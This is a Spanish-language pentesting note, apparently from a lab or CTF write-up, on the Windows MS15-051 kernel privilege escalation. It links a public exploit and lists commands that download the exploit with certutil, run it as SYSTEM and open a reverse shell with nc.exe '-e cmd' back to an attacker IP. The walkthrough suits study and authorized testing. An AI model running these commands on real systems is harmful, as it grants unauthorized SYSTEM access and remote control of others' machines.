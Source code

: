 Las vulnerabilidades en los controladores en modo kernel de Windows podrían permitir la divulgación de información. 
Esta actualización de seguridad resuelve vulnerabilidades en Windows, Microsoft .NET Framework, Microsoft Office, Microsoft Lync y Microsoft Silverlight. La más grave de estas vulnerabilidades podría permitir uno de los siguientes escenarios:

* Ejecución remota de código si un usuario abre un documento especialmente diseñado o va a una página web que no es de confianza que contiene fuentes TrueType incrustadas
* Elevación de privilegios si un atacante inicia sesión localmente y ejecuta código arbitrario en modo kernel. Un atacante podría entonces realizar las siguientes acciones:
	* Instalar programas
	* Ver, cambiar o eliminar datos
	* Cree nuevas cuentas que tengan todos los derechos de usuario.

Un atacante debe tener credenciales de inicio de sesión válidas y poder iniciar sesión localmente para aprovechar esta vulnerabilidad. La vulnerabilidad no puede ser explotada de forma remota o por usuarios anónimos.

Exploit: https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS15-051

> Descargar fichero .zip y descomprimir con unzip.
> Compartir fichero desde un servicio web en nuestra máquina local:
> `python -m SimpleHTTPServer 80`
> Transferir el fichero .exe correspondiente a la arquitectura de la máquina.
> `mkdir C:\Windows\Temp\Test`
> `certutil.exe -f -urlcache -split http://10.10.16.109/ms15-051x64.exe ms15-051x64.exe`
> Ejecutar:
> `C:\Windows\Temp\Test\ms15-051x64.exe whoami`
> Obtener una reverse shell como nt authority/system:
> Montar un servidor SMB con impacket en el equipo local donde se estará compartiendo el binario de nc.exe --> `impacket-smbserver smbFolder $(pwd) -smb2support`
> Poner puerto en escucha en equipo local con netcat --> `rlwrap nc -nlvp 443`
> Hacer uso del binario nc.exe para entablar una reverse shell desde el equipo remoto  gracias a ms15-051x64.exe --> `C:\Windows\Temp\Test\ms15-051x64.exe "\\10.10.16.109\smbFolder\nc.exe -e cmd 10.10.16.109 443"`